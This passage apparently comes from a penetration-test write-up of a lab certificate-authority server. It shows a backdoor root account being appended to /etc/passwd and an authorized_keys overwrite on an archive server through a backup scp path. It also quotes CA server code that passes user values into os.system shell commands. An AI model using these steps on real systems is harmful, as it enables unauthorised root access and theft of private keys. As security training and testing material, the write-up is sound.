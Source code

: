 We can then add a root user account so we can `su` to a privileged user from any unprivileged shell.

```shell
root@ca-server# echo "pwn:$(openssl passwd -1 -salt NaCl iamroot):0:0:root:/root:/bin/bash" | tee -a /etc/passwd
```

Then, from any shell on the CA server, we get root access by

```shell
unprivileged@ca-server$ su pwn -
```

and entering `iamroot` when we're prompted for the password.

We can now access every file - CA private key. SSH host keys, install packages, etc.

Going back to the way files are backed up to the archive server and backup script, we see that files are copied over using

```shell
scp -i /home/laurin/.ssh/archive -r $1/ caserver@archive:
```

This command recursively copies a directory to the home directory of the `caserver` user on the archive machine.

A particularly interesting directory inside any user's home directory is `.ssh` where (guess what) the `authorized_keys` file is. We can therefore overwrite `authorized_keys` with a key that is not restricted. So if we do:

```shell
laurin@ca-server:~$ mkdir malicious && cd malicious
laurin@ca-server:~/malicious$ ssh-keygen -t rsa -q -f "./bad_v2" -N ""
laurin@ca-server:~/malicious$ mkdir .ssh
laurin@ca-server:~/malicious$ cat bad_v2.pub > .ssh/authorized_keys
laurin@ca-server:~/malicious$ scp -i /home/laurin/.ssh/archive -r .ssh/ caserver@archive:
```

This installs our key(Note that it also overwrites `laurin`'s key and we need to reinstall it to preserve any old functionality that relies on `ssh`-ing using this key).

We can now ssh into the archive server

```shell
laurin@ca-server:~$ ssh -i ~/malicious/bad_v2 caserver@archive
```

On the archive server, there does not seem to be an obvious method for privilege escalation.

### Whitebox testing

Looking at the implementation of the CA server in `ca-server:/opt/Ca_Server/ca_server.py`:

```py
# Generate key pair
os.system(f"openssl genrsa -aes256 \
            -passout pass:{password} -out {key_out} 2048")

print("certificate request")
# Generate certificate request
os.system(f"openssl req -config {self.CONFIG_INTERM} \
            -key {key_out} -passin pass:{password} \
            -new -sha256 -subj {subject_option} \
            -out {request_out}")

print("sign cert")
# sign certificate
os.system(f"openssl ca -batch -config {self.CONFIG_INTERM} \
            -extensions server_cert -days 375 -notext -md sha256 \
            -in {request_out} \
            -out {cert_out}")
```